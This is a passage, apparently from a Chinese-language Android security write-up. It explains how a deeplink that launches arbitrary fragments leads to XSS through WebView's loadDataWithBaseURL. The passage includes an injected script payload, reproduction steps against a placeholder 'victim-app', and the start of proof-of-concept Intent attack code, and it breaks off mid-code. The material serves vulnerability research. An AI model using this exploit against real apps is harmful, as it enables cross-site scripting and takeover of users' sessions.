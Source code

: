   
除了明显的情况外，攻击者控制调用中的baseUri和参数data  
```
webView.loadDataWithBaseURL("https://google.com/",
           "<script>document.write(document.domain)</script>",
           null, null, null);
```  
  
  
  
漏洞原理：  
deeplink加载任意fragment，转化为WebView loadDataWithBaseURL漏洞。  
  
   
  
漏洞复现  
  
  
实现步骤：  
```
(1)victim-app://c/contact/2?fragmen_class=<fragment>可启动任意fragment，并可 通过Intent Extra传参
(2)寻找到⼀个带WebView的Fragment：GoogleMapWebViewFragment
(3)可污染loadDataWithBaseURL的前两个参数，构造victim.com域下的XSS
webview.loadDataWithBaseURL("victim.com","google-map.html",    "text/html",    ...);
```  
  
  
  
攻击代码  
```
Intent payload = new Intent(Intent.ACTION_VIEW);
payload.setData(Uri.parse("victim-app://c/contact/2?fragmen_class=com.victim.app.GoogleWebViewMapFragment"));
Bundle extra = new Bundle();

